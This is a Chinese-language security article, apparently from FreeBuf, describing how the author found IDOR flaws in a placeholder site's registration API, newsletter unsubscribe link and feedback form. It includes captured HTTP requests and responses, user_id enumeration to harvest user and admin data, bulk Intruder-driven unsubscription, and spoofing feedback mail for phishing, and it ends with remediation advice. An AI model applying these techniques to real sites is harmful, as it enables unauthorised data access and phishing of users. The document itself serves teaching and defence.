

# 挖洞经验 | 在账户注册和意见反馈处发现越权漏洞（IDOR) - FreeBuf 网络安全行业门户

****

**今天分享几点关于越权漏洞（IDOR）的发现经验，这类型漏洞通常发生在 Web 应用提供给用户基于输入的对象中，漏洞造成的影响将会致使攻击者可以绕过授权限制，访问到目标系统内其它不应该被访问到的资源或数据。**

## IDOR 概述

简单来说，假设目标网站有两个用户 U1 和 U2，两者账户中都存储有个人文件，但只有自己才有权限查看访问到这些文件。打个比方，也即 U1 只能访问到自己的账户文件，不可访问 U2 的账户文件。

某天，U1 访问他自己账户中的文件 blahBlah.pdf，具体链接如下：

> [https://whocare.com/file/23](https://whocare.com/file/23)

上述链接中假设最后的数字 23 是与自己账户对应的一个参数，但好奇的 U1 用户却随手修改了这个数字参数，把它改成了 50，然后发起了访问，链接如下：

> [https://whocare.com/file/50](https://whocare.com/file/50)

但正好这一改动，U1 在自己账户权限内竟然看到了 U2 账户的文件。

所以问题出在哪里呢？原因在于 Web 应用在基于用户输入的直接对象访问机制中，缺少了对访问对象的身份验证措施。如何来发现 IDOR 漏洞？其实，IDOR 就像 XSS 一样存在广泛，只要你清楚目标 Web 应用的设计架构或工作流，非常容易发现。这里我分享几点 IDOR 漏洞的发现经验，仅供参考。

## 在用户注册处发现 IDOR 漏洞

在网站注册机制中发起数据包拦截，目标网站 whocare.com 调用了一个账户注册 API，Burp 捕获的账户注册请求数据包如下：

```bash
POST /analytics/index.php/plus/registerportal?user_id=43657&key=344246b382b1d70c25ea14ed6f2760c6 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 239
Host: api.whocare.com
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.4.1
email=test@whocare.com&password=as&username=&firstname=tvbb&lastname=gvcz&mobile=&country=test&city=hfhdggd&birthday_full=&gender=fknefjn
```

可以看到，在上述数据包的 POST 操作中包含了 user\_id 参数，这里出于测试目的，我们把它修改为其它字符串随机值，然后服务端响应回来的消息中有了这样的提示：用户已经存在！更为重要的是，服务端响应回来的信息中包含了与该注册用户相关的姓名、邮箱、联系地址等等。响应数据包如下：

```bash
HTTP/1.1 200 OK
Date: Tue, 05 Mar 2019 12:53:30 GMT
Content-Type: text/html
Connection: close
Set-Cookie: __cfduid=dc4d54bb59b5c4a2c8501e3ed1cd5952b1551790409; expires=Wed, 04-Mar-20 12:53:29 GMT; path=/; domain=.whocare.com; HttpOnly
Vary: Accept-Encoding
Server: cloudflare
CF-RAY: 4b2c3badddb3ce21-LHR
Content-Length: 311
{"error":"exist","user":[{"id":"34666","username":"admin","firstname":"Pappu","lastname":"Rahul","email":"admin@whocare.com","mobile":null,"gender":"male","birthday":null,"country":"","city":null,"address":null,"address1":[Reducted],"postcode":[Reducted],"ip_address":[Reducted],"app_id":[Reducted]}]}
```

而且通过这样，我甚至可以通过暴力枚举用户参数 user\_id，大量获取目标网站用户信息，当然其中也会包含管理员信息。

## 在邮件订阅（Subscribe）列表中发现 IDOR 漏洞

同样，我们以 whocare.com 为目标网站，它为新用户提供了一个订阅选项，可以通过用户邮件方式获取一些网站的最新资讯。而在用户设置面板中，存在一个订阅取消按钮，当点击该按钮之后，它会向注册用户发送一个取消订阅的通知链接，URL 如下：

> [http://whocare.com/deleteNewsletter/dGVzdGVybWFpbEBnbWFpbC5jb20=](http://whocare.com/deleteNewsletter/dGVzdGVybWFpbEBnbWFpbC5jb20=)

仔细看可知道，它结尾包含了一个 base64 编码的字符串，解密后 dGVzdGVybWFpbEBnbWFpbC5jb20= : testermail@gmail.com，这里看似这种动作未对请求做身份校验，所以，在此我们需要其他注册用户的绑定邮箱来进行测试，看看是否能对其他注册用户执行订阅取消操作。

这里的一种攻击可能性为：我们要以收集大量目标网站注册用户的邮箱，然后分别把它们进行 base64 编码，形成字典，放到 Burp 的 Intruder 模块中，进行自动化攻击测试，这样一来，就形成了对批量用户的订阅取消动作。这里可以综合利用上述的注册处 IDOR 漏洞来形成更大的威胁。  

## 在意见反馈的邮件转发处发现 IDOR 漏洞

比如还是在 whocare.com 中，如果用户向目标网站提交意见反馈（Feedback）的数据包如下：

```bash
POST /Services/PostContactUsEmail HTTP/1.1
Host: www.whocare.com
Connection: close
Content-Length: 327
Accept: */*
Origin: https://www.whocare.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.87 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://www.whocare.com/feedback
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: [REDUCTED]
ContactUs_Name_Txt=hiname&ContactUs_Email_Txt=attacker@gmail.com&ContactUs_MessageType_Txt=%D8%A7%D8%B3%D8%AA%D9%81%D8%B3%D8%A7%D8%B1&ContactUs_Department_Txt=feedback@whocare.com%23%D8%A7%D9%84%D8%AF%D8%B9%D9%85+%D8%A7%D9%84%D9%81%D9%86%D9%8A&ContactUs_MessageBody_Txtthis+is+the+comment&ContactUs_Captcha_Txt=QBAQLU
```

仔细看其中提交的参数，它包含了以下几个重要信息：

> ContactUs\_Department\_Txt= 将会收到反馈意见的邮箱地址
> 
> ContactUs\_Email\_Txt= 当前用户用来发送反馈意见的邮箱地址
> 
> ContactUs\_MessageBody\_Txt= 用户发送的反馈意见信息

上面有两个地方的邮箱地址我们可以进行修改，那就是：

> ContactUs\_Department\_Txt=admin@whocare.com
> 
> ContactUs\_Email\_Txt = 任何你想发送邮件的用户邮箱地址，或者恶意一点，把它设为网站所有用户邮箱地址。

这样一来，所有网站用户都会收到一封来自管理员邮箱的邮件，这可以用来作为钓鱼攻击的一个切入点。

## IDOR 的修复建议

1、请求或其它操作动作中实施合理的访问权限控制措施；

2、对涉及用户相关的参数使用强加密或随机数生成，不要使用如 id=3 这种简单直白的数字形式；

3、更多防护措施请[点此参考 OWASP 官方说明](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html)。
